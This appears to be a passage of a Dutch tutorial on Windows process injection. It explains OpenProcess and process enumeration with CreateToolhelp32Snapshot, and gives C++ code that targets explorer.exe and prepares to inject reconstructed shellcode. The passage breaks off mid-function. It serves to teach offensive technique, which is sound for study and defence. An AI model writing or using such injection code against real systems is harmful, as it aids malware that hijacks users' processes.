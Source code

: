 ## Een handle verkrijgen met OpenProcess
De eerste stap om **Memory Injection** toe te passen is het verkrijgen van toegang tot het proces wat we willen injecteren. Dit doen we met de functie `OpenProcess`. Met een geldige handle kunnen we het geheugen van het doelproces manipuleren, wat het mogelijk maakt om later onze **Shellcode** te kunnen injecteren.

[Memory Protection Constants](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants)

Wanneer we `OpenProcess` aanroepen, specificeren we drie parameters:
- `dwDesiredAccess` bepaalt welke rechten we nodig hebben. In ons geval kiezen we `PROCESS_ALL_ACCESS` om volledige controle over het doelproces te verkrijgen.
- `bInheritHandle` bepaalt of **child-process** de handle mogen overnemen. Hier zetten we dit op `FALSE` omdat we alleen in het huidige proces willen werken.
- `dwProcessId` is de unieke ID van het doelproces. Dit stelt ons in staat precies dat proces te openen dat we willen manipuleren.

Wanneer `OpenProcess` succesvol is, geeft het een geldige handle terug. Als de functie faalt, retourneert het `NULL`, en kunnen we met `GetLastError` de foutcode achterhalen om te begrijpen wat er misging.

```c++
void openHandleToProcess(DWORD processID) {
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    printf("%s got a handle to the process!\n\---0x%p\n", k, hProcess);
    if (hProcess == NULL) {
        printf("%s couldn't get a handle to the process (%ld), error: %ld", e, processID, GetLastError());
    }
}
```

### Processen doorzoeken met CreateToolhelp32Snapshot
Nadat we weten welk proces we willen targeten, moeten we het proces identificeren in de lijst van actieve processen. Hiervoor gebruiken we `CreateToolhelp32Snapshot`, een functie waarmee we een snapshot maken van alle actieve processen. Ik heb ervoor gekozen om het `explorer.exe`-proces te targeten, omdat dit proces altijd actief is en geen verhoogde privileges vereist om te injecteren.

[CreateToolhelp32Snapshot function (tlhelp32.h)](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)

Wanneer de snapshot eenmaal is gemaakt, doorlopen we de processen met behulp van `Process32First` om het eerste proces op te halen, en `Process32Next` om door de lijst te gaan. Bij elk proces vergelijken we de naam met de naam van ons doelproces. Zodra we een match vinden, slaan we de process ID (PID) op en gaan we verder met de injectie.

```c++
void injectIntoProcess(const wchar_t* processName) {
    reconstruct_shellcode();

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (snapshot == INVALID_HANDLE_VALUE) {
        printf("%s failed to create snapshot, error: %ld\n", e, GetLastError());
        return;
    }

    if (Process32First(snapshot, &pe32)) {
        do {
            if (wcscmp(pe32.szExeFile, processName) == 0) {
                openHandleToProcess(pe32.th32ProcessID);
                if (hProcess != NULL) {
                    allocateMemory();
                    if (rBuffer != NULL) {
```